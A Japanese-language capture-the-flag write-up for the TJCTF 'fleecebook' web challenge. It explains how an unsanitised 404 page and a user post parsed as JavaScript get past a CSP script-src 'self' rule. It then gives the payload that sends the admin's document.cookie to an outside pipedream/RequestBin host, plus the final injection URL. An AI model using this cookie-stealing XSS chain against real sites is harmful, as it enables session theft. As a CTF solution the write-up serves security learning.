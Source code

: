 # fleecebook:web:378pts
I made a place to post all you want about fleece!  
I guess you could say, it's kinda meta...  
[fleecebook.tjc.tf](https://fleecebook.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/fleecebook)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
XSS問題セットとソースが渡される。  
アクセスすると謎のfleece推しサイトが出てきた(マウスポインタもfleeceである…)。  
fleecebook  
[site.png](site/site.png)  
`/post`にてタイトルとコンテンツが投稿できるがサニタイズされている。  
ここでソースを見ると以下のようであった。  
```python
~~~
@app.errorhandler(404)
def not_found(e):
    return 'your fleece page (' + request.path + ') could not be found :notlikefleececry:'
~~~
```
404エラーページではサニタイズが見られない。  
```bash
$ curl "https://fleecebook.tjc.tf/%3Cs%3E"
your fleece page (/<s>) could not be found :notlikefleececry:
```
タグの挿入に成功するが、CSPにて`script-src 'self'`とされているためインラインscriptタグでのXSSなどはできないようだ。  
同一オリジンにjsなどをアップロードしてXSSを行う方針をとる。  
ここで、`/post`にて任意のタイトルとコンテンツを投稿できることを思い出す。  
これをjsとして読み込めばよい。  
通常のテキストを投稿したものは以下のような形式であった。  
```

    title - 2022-05-15 02:45:44
    <br>
    content
    
```
`<br>`などが邪魔だがコメントアウトすればよい。  
リクエストは[RequestBin.com](https://requestbin.com/)で受け取る。  
サニタイズされるため、シングルクォートやダブルクォートなどは利用できない。  
titleを  
```
location.href=`https://xxxxxxxxxxxxx.x.pipedream.net?s=`+document.cookie; /*
```
contentを  
```
*/
```
とし、投稿を行う。  
これにより、リダイレクトを行いcookieを取得するjsが設置できた。  
生成したURLは`https://fleecebook.tjc.tf/post/b7515134-68ff-48ab-986d-d8684602c571`である。  
```bash
$ curl https://fleecebook.tjc.tf/post/b7515134-68ff-48ab-986d-d8684602c571

    location.href=`https://endetltc6t33d.x.pipedream.net?s=`+document.cookie; /* - 2022-05-15 02:52:55
    <br>
    */
    
```
これを404ページよりscriptのsrcとして読み込む。  
最終的にXSSを行うURLは、
```
https://fleecebook.tjc.tf/static/"><script src='https://fleecebook.tjc.tf/post/b7515134-68ff-48ab-986d-d8684602c571'></script>
```
となる。  
これをAdmin Botに送信する。  
CSPがバイパスでき、`/?s=flag=tjctf{s3a_e5s_p3A_5a1d68d16c7e1d2a}`なるflagを含むリクエストを受信した。  

## tjctf{s3a_e5s_p3A_5a1d68d16c7e1d2a}